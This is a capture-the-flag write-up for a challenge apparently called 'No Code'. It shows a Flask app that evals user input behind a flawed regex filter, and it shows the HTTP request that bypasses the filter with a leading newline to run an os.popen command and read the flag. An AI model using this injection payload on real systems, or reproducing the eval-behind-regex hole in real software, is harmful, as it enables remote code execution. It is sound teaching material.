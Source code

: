 # No Code
> I made a web app that lets you run any code you want. Just kidding!

## About the Challenge
We got a website and also a Python code. Here is the content of `app.py`

```python
from flask import Flask, request, jsonify
import re

app = Flask(__name__)

@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.form.get('code', '')
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```

In this case, we can execute a Python code but there's a regex here `.*[\x20-\x7E]+.*` (matches any string that has at least one printable ASCII character) so basically we "cant" input anything here

## How to Solve?
We can bypass it using a new line (\n) to execute a Python code. Here is the example

```
POST /execute HTTP/1.1
Host: uoftctf-no-code.chals.io
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

code=
__import__("os").popen("cat flag.txt").read()
```

![flag](images/flag.png)

## Flag
```
uoftctf{r3g3x_3p1c_f41L_XDDD}
```